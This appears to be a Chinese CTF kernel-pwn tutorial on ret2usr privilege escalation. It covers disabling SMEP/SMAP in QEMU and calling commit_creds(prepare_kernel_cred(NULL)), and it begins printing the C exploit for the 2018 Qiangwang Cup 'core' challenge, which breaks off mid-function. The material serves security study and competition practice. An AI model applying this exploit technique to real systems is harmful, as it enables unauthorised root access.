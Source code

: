 # ret2usr（已过时）

## 概述

**在【未】开启SMAP/SMEP保护的情况下**，用户空间无法访问内核空间的数据，但是内核空间可以访问/执行用户空间的数据，因此 `ret2usr` 这种攻击手法应运而生——通过 kernel ROP 以内核的 ring 0 权限执行用户空间的代码以完成提权。

通常 CTF 中的 ret2usr 还是以执行 `commit_creds(prepare_kernel_cred(NULL))` 进行提权为主要的攻击手法，不过相比起构造冗长的ROP chain，ret2usr 只需我们要提前在用户态程序构造好对应的函数指针、获取相应函数地址后直接 ret 回到用户空间执行即可，在这种情况下 **我们只需要劫持内核执行流，而无需在内核空间构造复杂的 ROP 链条** 。

✳ 对于开启了 `SMAP/SMEP保护` 的 kernel 而言，**内核空间尝试直接访问用户空间会引起 kernel panic**，我们将在下一章节讲述其绕过方式。

> 在 QEMU 启动参数中，我们可以为 CPU 参数加上 `-smep,-smap` 以显式关闭 SMEP&SMAP 保护，例如：
> 
> ```bash
> #!/bin/sh
> qemu-system-x86_64 \
>     -enable-kvm \
>     -cpu host,-smep,-smap \
> # ...
> ```
> 

## 例题：2018 强网杯 - core

具体的这里就不再重复分析了，由于其未开启 smap/smep 保护，故可以考虑在**用户地址空间中构造好对应的代码后直接 ret2usr 以提权，并直接编写汇编代码进行返回用户空间的操作**，我们在内核空间中只需要直接返回到该函数即可。

最终的 exp 如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
```